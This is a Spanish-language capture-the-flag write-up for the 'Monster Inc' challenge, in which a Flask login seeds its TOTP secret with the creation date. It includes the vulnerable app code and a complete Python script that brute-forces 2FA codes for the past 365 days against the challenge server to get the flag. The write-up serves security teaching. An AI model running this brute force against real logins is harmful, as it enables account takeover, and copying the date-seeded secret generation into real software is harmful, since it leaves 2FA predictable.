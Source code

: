 # Reto - Monster Inc

El reto contaba con la siguiente descripción: Desde principios de este año, estamos recibiendo informes sobre actividades sospechosas provenientes de una empresa llamada Monster Inc. Nuestro equipo azul ha rastreado el portal secreto de su empresa y ha descifrado la contraseña de la cuenta de administrador: el administrador, sin embargo, no pudo eludir la seguridad de 2FA. ¿Puedes entrar? http://45.164.23.212:3000/ . Además adjuntaba un fichero **app.py** con el siguiente codigo:
```
random.seed(datetime.datetime.today().strftime('%m-%d-%Y'))

app = Flask(__name__)

@app.get('/')
def index():
    return render_template('index.html')

@app.post('/')
def log_in():
    with sqlite3.connect('monster-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()

    if result == None:
        return render_template('portal.html', message='Invalid username/password.')

    totp = pyotp.TOTP(result[0])

    if totp.verify(request.form['totp']):
        with open('../flag.txt') as file:
            return render_template('portal.html', message=file.read())

    return render_template('portal.html', message='2FA code is incorrect.')

with sqlite3.connect('monster-inc.db') as db:
    db.cursor().execute('''CREATE TABLE IF NOT EXISTS user (
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        secret_alpha = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567abcdef'

        totp_secret = ''.join([random.choice(secret_alpha) for _ in range(40)])

        with sqlite3.connect('monster-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('Username:\t' + sys.argv[1])
        print('Password:\t' + sys.argv[2])
        print('TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```
Al analizar el fichero adjunto obtuvimos información de interés:
- El archivo **app.py** recibe un username y password desde un formulario. Luego consulta una base de datos SQLite (monster-inc.db) para obtener el campo totp_secret del usuario correspondiente.
- Se genera un código temporal basado en el totp_secret almacenado en la base de datos y se verifica el código ingresado por el usuario usando la librería pyotp.
- La semilla de totp_secret se genera con un random.seed() dependiente de la fecha actual (datetime.datetime.today().strftime('%m-%d-%Y')), lo que podría permitir generar la misma secuencia de números si se conoce la fecha de creación del usuario.
- Si se logra una autenticación exitosa, la aplicación lee el archivo flag.txt en el servidor.

Accedemos a la url proporcionada y observamos que el formulario del login cuenta con 3 campos: username, password y 2FA code

<p align="center"> <img src="../../img_MetaRed Mexico Anuies-TIC 2024/retoMonster_Inc-1.png" /> </p>

Con la información obtenida a partir del análisis del fichero adjunto, creamos un script que implementa un ataque de fuerza bruta al servidor probando múltiples fechas en el pasado (365 días) y diversas ventanas de tiempo (±30 segundos) para generar posibles códigos TOTP y enviarlos al servidor a través de una petición POST. Si la respuesta del servidor no contiene errores, asume que el TOTP ha sido correcto y detiene el proceso. El código se muestra a continuación:
```
import pyotp
import datetime
import random
import requests

# Genera TOTP secret basado en una fecha específica
def generate_totp_secret(date):
    random.seed(date.strftime('%m-%d-%Y'))
    secret_alpha = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567abcdef'
    return ''.join([random.choice(secret_alpha) for _ in range(40)])

# Prueba múltiples fechas y ventanas de tiempo para el TOTP
def try_totp_for_dates(days_back=7, time_window=2):
    url = "http://45.164.23.212:3000/"
    today = datetime.datetime.today()

    for i in range(days_back):
        # Intentar con varias fechas anteriores
        date_to_try = today - datetime.timedelta(days=i)
        totp_secret = generate_totp_secret(date_to_try)
        totp = pyotp.TOTP(totp_secret)

        # Probar con la ventana temporal (actual, anterior, y siguiente)
        for j in range(-time_window, time_window + 1):
            current_totp = totp.at(datetime.datetime.now() + datetime.timedelta(seconds=j * 30))
            
            # Imprimir información de depuración
            print(f"Date: {date_to_try.strftime('%m-%d-%Y')}, TOTP: {current_totp}")
            
            # Enviar petición POST con credenciales y código TOTP generado
            data = {
                'username': 'admin',
                'password': 'admin',
                'totp': current_totp
            }
            
            # Intentar autenticarse
            response = requests.post(url, data=data)
            
            # Verificar si el intento fue exitoso
            if "2FA code is incorrect" not in response.text:
                print(f"Success! TOTP worked for date: {date_to_try.strftime('%m-%d-%Y')}, Window: {j * 30} seconds")
                print(response.text)
                return
            else:
                print(f"2FA code is incorrect for date: {date_to_try.strftime('%m-%d-%Y')}, Window: {j * 30} seconds")
    
    print("No valid TOTP found for the past", days_back, "days.")

# Probar los últimos 365 días y una ventana temporal de +/- 30 segundos
try_totp_for_dates(days_back=365, time_window=1)
```

Para la ejecución del script se necesita instalar las librerías pyotp y requests. Ver comando debajo:
```
pip install pyotp
pip install requests
```

Posteriormente de ejecutar el script, encuentra la código 2FA y realizar la petición al servidor, se devuelve por consola la flag:

<p align="center"> <img src="../../img_MetaRed Mexico Anuies-TIC 2024/retoMonster_Inc-2.jpg" /> </p>

**Flag del reto:** ```flagmx{time_based_pass_r_not_realy_random}```
